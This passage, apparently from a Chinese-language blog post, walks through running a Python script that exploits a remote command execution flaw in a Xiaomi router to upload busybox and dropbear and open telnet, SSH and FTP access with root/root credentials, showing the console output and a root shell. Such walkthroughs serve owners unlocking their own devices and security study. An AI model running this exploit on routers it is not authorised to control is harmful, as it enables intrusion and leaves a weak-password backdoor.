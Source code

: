 > conda 工具安装配置可参照 [JupyterLab 实战](https://alphahinex.github.io/2024/01/14/jupyter-lab-in-action/) 。


脚本执行
------

运行环境连接至小米路由器后，获得路由地址，如 `192.168.31.169`。之后执行如下过程：

```bash
$ python remote_command_execution_vulnerability.py
Router IP address [press enter for using the default 'miwifi.com']: 192.168.31.169
Enter router admin password: xxxxxx
There two options to provide the files needed for invasion:
   1. Use a local TCP file server runing on random port to provide files in local directory `script_tools`.
   2. Download needed files from remote github repository. (choose this option only if github is accessable inside router device.)
Which option do you prefer? (default: 1)1
****************
router_ip_address: 192.168.31.169
stok: xxxxxxxxx
file provider: local file server
****************
start uploading config file...
start exec command...
local file server is runing on 0.0.0.0:50423. root='script_tools'
local file server is getting 'busybox-mipsel' for 192.168.31.169.
local file server is getting 'dropbearStaticMipsel.tar.bz2' for 192.168.31.169.
done! Now you can connect to the router using several options: (user: root, password: root)
* telnet 192.168.31.169
* ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa -c 3des-cbc -o UserKnownHostsFile=/dev/null root@192.168.31.169
* ftp: using a program like cyberduck
```

> 通过本地文件服务将文件传输至路由时，可无需网络连接。

脚本执行成功后，可通过提供的三种方式连接至小米路由器，用户名密码均为 `root`：

```bash
$ ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa -c 3des-cbc -o UserKnownHostsFile=/dev/null root@192.168.31.169
The authenticity of host '192.168.31.169 (192.168.31.169)' can't be established.
RSA key fingerprint is SHA256:VS1Ef5kgBMO6ghA+PD2lcKYM6cTOnwE/eO4PRUYV6Jg.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.31.169' (RSA) to the list of known hosts.
root@192.168.31.169's password:


BusyBox v1.19.4 (2019-06-11 03:26:58 UTC) built-in shell (ash)
Enter 'help' for a list of built-in commands.

 -----------------------------------------------------
       Welcome to XiaoQiang!
 -----------------------------------------------------
  $$$$$$\  $$$$$$$\  $$$$$$$$\      $$\      $$\        $$$$$$\  $$\   $$\
 $$  __$$\ $$  __$$\ $$  _____|     $$ |     $$ |      $$  __$$\ $$ | $$  |
 $$ /  $$ |$$ |  $$ |$$ |           $$ |     $$ |      $$ /  $$ |$$ |$$  /
 $$$$$$$$ |$$$$$$$  |$$$$$\         $$ |     $$ |      $$ |  $$ |$$$$$  /
 $$  __$$ |$$  __$$< $$  __|        $$ |     $$ |      $$ |  $$ |$$  $$<
 $$ |  $$ |$$ |  $$ |$$ |           $$ |     $$ |      $$ |  $$ |$$ |\$$\
 $$ |  $$ |$$ |  $$ |$$$$$$$$\       $$$$$$$$$  |       $$$$$$  |$$ | \$$\
 \__|  \__|\__|  \__|\________|      \_________/        \______/ \__|  \__|


root@XiaoQiang:~# 
```
